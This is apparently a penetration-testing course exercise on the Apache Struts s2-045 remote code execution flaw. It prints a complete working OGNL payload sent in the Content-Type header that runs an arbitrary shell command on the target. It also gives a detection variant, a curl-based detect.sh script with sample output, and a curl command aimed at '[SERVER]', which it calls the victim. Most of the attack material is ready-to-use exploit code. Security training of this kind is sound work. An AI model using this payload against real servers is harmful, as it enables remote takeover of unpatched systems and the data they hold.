 ## Introduction
-->This exercise covers a Remote Code Execution in Struts 2.
-->This course details how to gain code execution when a Struts application is vulnerable to [s2-045](https://struts.apache.org/docs/s2-045.html). This vulnerability has already been widely exploited in the wild and is easily "worm-able". Therefore, it's essential that you know how to test for it. It is also believe to be the vulnerability that was used to hack Equifax

## Struts s2-045
-->Struts s2-045 impacts the following versions of Struts:
-   Struts 2.3.5
-   Struts 2.3.31
-   Struts 2.5
-   Struts 2.5.10
-->The issue comes from the evaluation of the `Content-Type` header when an error is generated by the framework. The vulnerable code is located in the management of file upload but can be triggered even if the application does not have an upload functionality.

## The payload
-->A lot of exploits are already available, most of them are just wrappers around the following payload:
```
%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
-->The payload is used as the `Content-Type` for the request.

## Detection
-->We can easily tweak this payload to allow us to detect the vulnerability without trying to run command.
```
%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getWriter())).(#ros.print('\ntest\n\n'))}
```

```
$ cat detect.sh 
curl --header "Content-Type: %{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getWriter())).(#ros.print('\ntest\n\n'))}" $1 
$ sh detect.sh [SERVER]

test

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
    <META HTTP-EQUIV="Refresh" CONTENT="0;URL=example/HelloWorld.action">
</head>

<body>
<p>Loading ...</p>
</body>
</html>
```

## Gaining code execution
-->Gaining code execution with this payload is as simple as running a `curl` command with the right argument:
```
$ curl --header "Content-Type: [PAYLOAD]" http://[SERVER]/
```
-->Where:
-   `[PAYLOAD]` is your payload.
-   `[SERVER]` is the victim.

## Conclusion
-->This exercise explained how to gain code execution when a Struts application is vulnerable to s2-045. When you are coming across a Struts application, it's essential that you test for this issue.